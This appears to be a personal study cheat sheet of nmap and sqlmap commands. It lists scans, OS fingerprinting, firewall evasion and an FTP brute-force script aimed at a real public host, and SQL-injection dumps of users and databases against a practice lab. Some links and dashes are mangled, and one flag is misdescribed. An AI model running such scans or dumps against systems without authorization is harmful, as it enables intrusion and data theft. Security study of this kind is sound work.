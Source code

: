 - Used to scan server’s ports
- commands
    - nmap [www.yahoo.com](http://www.yahoo.com) ⇒ by default scan most famous 1000 tcp ports
    - nmap -n -sn target.com ⇒ scan only ping (live IPs) not port scan
    - nmap -n -sn 192.168.43.0/24 ⇒ scan only ping (live IPs) not port scan for full network
    - nmap -iL target.txt -sn ⇒ get the live IPs (ping)
    - nmap -n -Pn -sS 192.168.43.0/24 ⇒ scan only ports not host discovery
    - nmap -n -Pn -T {0|1|2|3|4|5} 192.168.43.0/24 ⇒ scan only ports not host discovery with speed specification, default is 3, 5 is faster but not accurate
    - nmap -sT -sU [www.yahoo.com](http://www.yahoo.com) ⇒ scan famous 1000 tcp and udp ports
    - nmap -sT -sU —top-ports 2000 [www.yahoo.com](http://www.yahoo.com) ⇒ scan famous 2000 ports
    - nmap -sT -sU -p 80,443,22 [www.yahoo.com](http://www.yahoo.com) ⇒ scan only ports 80, 443, 22
    - nmap -s{S|T|U} [target.com](http://target.com) ⇒ scan type. S (SYN) first two steps in ThreeWayHandShake (preferred), T(Connect) all three steps, U(UDP)
    - nmap -sT -sU -p 1-65535 [www.yahoo.com](http://www.yahoo.com) ⇒ scan all 65535 ports
    - nmap -p 80,443 -A [www.yahoo.com](http://www.yahoo.com) ⇒ -A enable nmap to test different test cases/scenarios to know which service use this port to know more info about the service (-A = -sV(service scan) -O (OS scan) -sC (vuln scan))
    - nmap -iL target.txt ⇒ scan ports of a list of IPs at the same time
    - /usr/share/nmap/scripts ⇒ the path of common nmap scripts
    - nmap [www.yahoo.com](http://www.yahoo.com) -p 21 -A —script=ftp-brute.nse ⇒ will apply this script at this port (brute force to guess the username/password)
    - nmap -A www.yahoo.com —oA yahoo ⇒ —oA Save the output of nmap to this file
    - nmap —reason [yahoo.com](http://yahoo.com) ⇒ print reason of why this port is open or close
    - nmap —badsum [yahoo.com](http://yahoo.com) ⇒ send with bad data payload (can bypass firewall)
    - nmap -O [yahoo.com](http://yahoo.com) ⇒ OS fingerprint , know the operating system version
    - nmap -sV [yahoo.com](http://yahoo.com) ⇒ know runing applications in this host and its version
    - https://nmap.org/mailman/listinfo/fulldisclosure ⇒ subscribe to get new updated exploits

## Sqlmap

- Used for automate SQLi for GET paramters
- sqlmap -u <URL>
    - sqlmap -u “[http://test.com/users?id=2](http://192.168.1.2/sqli-labs/Less-1/?id=2)”
- If there is login redirect, you can give it your cookies
    - sqlmap -u <URL> —cookie=”<loginKeyValue>”
- if for specific paramater
    - sqlmap -u <URL> -p <injection param> [option]
- sqlmap -u “[http://192.168.1.2/sqli-labs/Less-1/?id=2”](http://192.168.1.2/sqli-labs/Less-1/?id=2%E2%80%9D) -p id
- sqlmap -u “[http://192.168.1.2/sqli-labs/Less-1/?id=2”](http://192.168.1.2/sqli-labs/Less-1/?id=2%E2%80%9D) -p id --banner
- sqlmap -u “[http://192.168.1.2/sqli-labs/Less-1/?id=2”](http://192.168.1.2/sqli-labs/Less-1/?id=2%E2%80%9D) -p id --users
- sqlmap -u “[http://192.168.1.2/sqli-labs/Less-1/?id=2”](http://192.168.1.2/sqli-labs/Less-1/?id=2%E2%80%9D) -p id --is-dba
- sqlmap -u “[http://192.168.1.2/sqli-labs/Less-1/?id=2”](http://192.168.1.2/sqli-labs/Less-1/?id=2%E2%80%9D) -p id --dbs ⇒ show all databases
- sqlmap -u “[http://192.168.1.2/sqli-labs/Less-1/?id=2”](http://192.168.1.2/sqli-labs/Less-1/?id=2%E2%80%9D) -p id -D <databasename> --tables
- sqlmap -u “[http://192.168.1.2/sqli-labs/Less-1/?id=2”](http://192.168.1.2/sqli-labs/Less-1/?id=2%E2%80%9D) -p id -D <databasename> -T <table name> --column
- sqlmap -u “[http://192.168.1.2/sqli-labs/Less-1/?id=2”](http://192.168.1.2/sqli-labs/Less-1/?id=2%E2%80%9D) -p id -D <databasename> -T <tablename> -C <columns names> --dump
- sqlmap -u "http://192.168.1.2/sqli-labs/Less-1/?id=2" -p id --dbms=mysql ⇒ define database type
- sqlmap -u "http://192.168.1.2/sqli-labs/Less-1/?id=2" -p id --dbms=mysql --technique=UNION
- sqlmap -u "http://192.168.1.2/sqli-labs/Less-1/?id=2" -p id --dbs --dbms=mysql
- sqlmap -u "http://192.168.1.2/sqli-labs/Less-8/?id=2" -p id --technique=B --banner
- sqlmap -u "http://192.168.1.2/sqli-labs/Less-8/?id=2" -p id --technique=B --banner --dbs
- sqlmap -u “[http://192.168.1.2/sqli-labs/Less-1/?id=2”](http://192.168.1.2/sqli-labs/Less-1/?id=2%E2%80%9D) -p id --dump >> for all thing
